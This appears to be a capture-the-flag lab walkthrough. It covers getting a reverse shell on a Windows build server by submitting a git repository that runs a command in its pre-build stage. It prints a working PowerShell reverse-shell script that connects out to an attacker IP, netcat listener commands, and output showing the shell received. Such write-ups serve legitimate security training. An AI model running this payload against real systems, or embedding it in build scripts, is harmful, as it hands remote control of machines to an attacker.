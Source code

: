 - Upon building the solution, the target server will run commands in the pre-build stage, thus creating a reverse
shell to our attacker machine.

- To recap, this is what we will do:
  - Setting up the solution: embedded the reverse shell and make a call to it in the pre-build stage
  - Deploy our git server with HTTP (the target machine can only communicate with machines in the same network)
  - Set up the nc listener
  - Submit repo URL to obtain the reverse shell

## 2.1 Setting up the solution

- Content of `reverse_shell.ps1`:

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.30',14242);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};$client.Close()
```

## 2.2 Deploy git repo

- First, we do a `git init` to initialize a `.git` folder. Then, we need to serve it through HTTP
- Run the command `git --bare update-server-info` at folder `.git` anytime we have a new commit (or first time establish the server)
so that the client can clone the codes.
- Create a simple HTTP server: `python -m http.server 12345`

## 2.3 Open the netcat listener

```
└─$ nc -lnvp 14242                                                                                                                                                                                                                          
listening on [any] 14242 ...
```

## 2.4 Submit Git repo

- Submit URL: `http://10.10.14.30:12345/.git`

- Heading back to the attacker, a reverse shell has been established:

```
└─$ nc -lnvp 14242                                                                                                                                                                                                                          
listening on [any] 14242 ...                                                                                                                                                                                                                
connect to [10.10.14.30] from (UNKNOWN) [10.10.11.234] 50365                                                                                                                                                                                
                                                                                                                                                                                                                                            
PS C:\Windows\Temp\b3fe09892d88b712d399e3b7465a96> ls C:\Users                                                                                                                                                                              
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
```